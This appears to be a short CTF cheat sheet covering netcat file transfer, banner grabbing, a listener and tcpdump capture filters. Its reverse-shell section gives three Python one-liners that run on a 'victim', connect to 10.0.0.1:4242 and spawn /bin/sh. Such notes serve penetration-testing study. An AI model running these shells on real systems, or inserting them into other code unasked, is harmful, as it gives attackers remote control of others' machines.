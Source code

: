 All the related netcat and listener things related to CTFs.

# Netdiscover
Listen to arp (address resolution protocol) things. 

# Netcat
- Pushing a file to a client: `nc -w3 [ip addr] [port] < file`
- Receiving a file: `nc -l -p [port] > outfile`
- Grab a banner using netcat: `echo "" | nc -v -n -w1 [target ip] [port]`
- `nc -nvv` -> very verbose

## Setting up reverse shell
Resources:
- [github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

First, set up netcat:
`nc -u -lvp 4242`

On the victim, can run:
- `export RHOST="10.0.0.1";export RPORT=4242;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`
- `python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`
- `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'`

# Listen to things
- Capture any packet: `sudo tcpdump -i any -w output.pcap`
    - Then analyze: `wireshark output.pcap`
- Only listen to HTTP (port 80) traffic: `sudo tcpdump -i any port 80 -w /path/to/outputfile.pcap`
- Capture certain num of packets on interface eth0: `sudo tcpdump -c 10 -i eth0`
- filter by source: `sudo tcpdump src 10.0.0.1`
- filter by destination: `sudo tcpdump dst 10.0.0.1`
- filter by protocol: `sudo tcpdump icmp`
- filter by source port: `sudo tcpdump src port 80`
- filter by dst port: `sudo tcpdump dst port 80`
- capture with specific flags: `sudo tcpdump 'tcp[13] & (tcp-syn|tcp-ack) != 0'`
- capture with certain length: `sudo tcpdump 'len > 0'`
- dns traffic (port 53): `sudo tcpdump port 53`
- capture without resolving hostnames: `sudo tcpdump -n`
- capture of a large length: `sudo tcpdump 'len > 100'`
- filter by network: `sudo tcpdump net 192.168.1.0/24`
- increase verbosity: `sudo tcpdump -vvv`
